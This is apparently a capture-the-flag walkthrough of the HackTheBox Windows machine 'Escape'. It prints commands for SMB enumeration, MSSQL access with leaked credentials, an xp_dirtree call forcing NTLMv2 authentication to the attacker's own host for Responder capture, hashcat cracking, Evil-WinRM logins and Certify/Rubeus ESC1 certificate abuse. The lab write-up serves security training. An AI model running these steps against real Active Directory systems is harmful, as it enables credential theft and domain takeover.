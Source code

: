 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Escape/logo.png
date: 2023-12-21 09:45:47+07:00
modified: 2023-12-21 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/184611
  name: Geiseric
tags: [Escape, Bruteforce, leak, mssql, xp_cmdshell, responder, xp_dirtree, NTLM, NTLMv2, WinRM, Evil-Winrm, BAK, ADCS, Certify, Rubeus, smb, hashcat, Windows, OSCP, Writeup]
title: Escape - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Escape is a Medium difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.   

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.11.202`

```bash
nmap -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -oA ./nmap/escape -Pn
```

|Ports|Service
|53| domain Simple DNS Plus
|88| kerberos-sec  Microsoft Windows Kerberos
|135| msrpc Microsoft Windows RPC
|139| netbios-ssn  Microsoft Windows netbios-ssn
|389| ldap  Microsoft Windows Active Directory LDAP
|445| Windows Server 2016 Standard 14393
|464| kpasswd5?
|593| ncacn_http  Microsoft Windows RPC over HTTP 1.0
|636| Microsoft Windows Active Directory LDAP
|1433| Microsoft SQL Server 2019
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Escape/1.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/2.png)

Next, I checked the SMB server where I found some shares.

`smbclient -N -L //10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/3.png)

I did some other enumeration and found nothing interesting.

# Foothold

I logged Into [Public]() Share using anonymous login and I found a PDF.

`smbclient -N //10.10.11.202/Public`

![](https://photos.squarezero.dev/file/abir-images/Escape/4.png)

Inside the PDF I found credentials to log into SQL server.

Credential -> `PublicUser : GuestUserCantWrite1`

![](https://photos.squarezero.dev/file/abir-images/Escape/5.png)

Using this credential I logged in to MSSQL server.

`mssqlclient.py 'PublicUser:GuestUserCantWrite1@10.10.11.202'`

![](https://photos.squarezero.dev/file/abir-images/Escape/6.png)

I tried to see If I could execute a command using `xp_cmdshell`` but no luck. I tried to activate it but I don't have the permissions.

`xp_cmdshell 'whoami'`

`sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
![](https://photos.squarezero.dev/file/abir-images/Escape/7.png)

I looked for databases in the server but nothing interesting.

`SELECT name FROM master.dbo.sysdatabases`

![](https://photos.squarezero.dev/file/abir-images/Escape/8.png)

I started Responder in my local machine to get an NTLMv2 response by making MSSQL server read something from my localhost.

Start Responder -> `sudo responder -vI tun0`

Read from MSSQL -> `xp_dirtree '\\10.10.14.22\myshare';`

![](https://photos.squarezero.dev/file/abir-images/Escape/9.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/10.png)

I used hashcat to crack the NTLMv2 Hash.

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Escape/11.png)

Password -> `REGGIE1234ronnie`

I used [Evil-Winrm]() to login to the user but there was no flag.

`evil-winrm -u sql_svc -p 'REGGIE1234ronnie' -i 10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/12.png)

After some enumeration I found `ERRORLOG.BAK` inside `C:\SQLServer\Logs`.

![](https://photos.squarezero.dev/file/abir-images/Escape/13.png)

At the very end, we can see the credentials of Ryan.Cooper.

![](https://photos.squarezero.dev/file/abir-images/Escape/14.png)

Credential -> `Ryan.Cooper : NuclearMosquito3`

I logged in using Evil-Winrm and got the flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/15.png)



# Privilege Escalation

I tried ASREProasting and Kerberoasting but no luck

`GetNPUsers.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

`GetUserSPNs.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

![](https://photos.squarezero.dev/file/abir-images/Escape/16.png)

I had to dig deep and Found TLS certificates on port 3269 which was by sequel-DC-CA.

`openssl s_client -showcerts -connect 10.10.11.202:3269  | openssl x509 -noout -text`

![](https://photos.squarezero.dev/file/abir-images/Escape/17.png)

I uploaded [Certify.exe](https://github.com/GhostPack/Certify) to the victim machine and found the vulnerable certificate.

`.\Certify.exe find /vulnerable`

![](https://photos.squarezero.dev/file/abir-images/Escape/18.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/19.png)

We can see the Validation period is 10 years Also the owner is Administrator. There are bad permissions listed which we can abuse as well.

Let's run Certify with alt name administrator to get certification which we can later craft to abuse.

```Powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

We get an RSA key and Certificate.

```Powershell
----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAptfb4Z6gnih00wPublNRZnDeJew6dNUjnIK9G3ABXssfprGP
qy0qdSl4s71+m2YSaC/4uDhEIwcxLDhMqwlmMzmCv8QQmJyosvtAFUFxtAg+dpBU
--snip--
/PuJaiETVwdaoqNlswkMHKnR0s
LWZ3L+xYD9LCVDkKC7sgleaa7uScTURFCr5F2FctdBwXSdydtFwRCMGL4BHLpsDv
Svcn4kSdHqzoGeooLwlIi+j4J+2DOWdYwJBhDd4wpPauoLdLR1EU
-----END RSA PRIVATE KEY-----
----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAAuikoIHtx76ygAAAAAACzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMxMjIyMDkxMTUwWhcNMjUxMjIy
MDkyMTUwWjBTMRMwEQYKCZImiZPy
--snip--
ei9J2F4a+S18ZzwBww23Zg13HJSu
4gr2IESXJuevi5d3VZACMXXcUs2rV1QNeRfqZNSQHepPEqlX2XEJMCTsyT4Pzqhr
XgWWAS1a1QQe1UUrvE8dDT7auRt+yg==
-----END CERTIFICATE-----
```

We can save this in one file cert.pem and convert it to cert.pfx


```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://photos.squarezero.dev/file/abir-images/Escape/20.png)

Next, I upload [Rubeus](https://github.com/GhostPack/Rubeus) & [cert.pfx](). 

Now we directly include the ticket in the system or get credentials that we can use to log in via Evil-Winrm.

Option 1:
```
.\Rubeus.exe asktgt /domain:SEQUEL.HTB /user:Administrator /certificate:cert.pfx /dc:dc.SEQUEL.HTB /ptt
```

Option 2:
```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

I used the 2nd option to get NTLM hash of the administrator.

![](https://photos.squarezero.dev/file/abir-images/Escape/21.png)

After logging in I got the root flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/22.png)



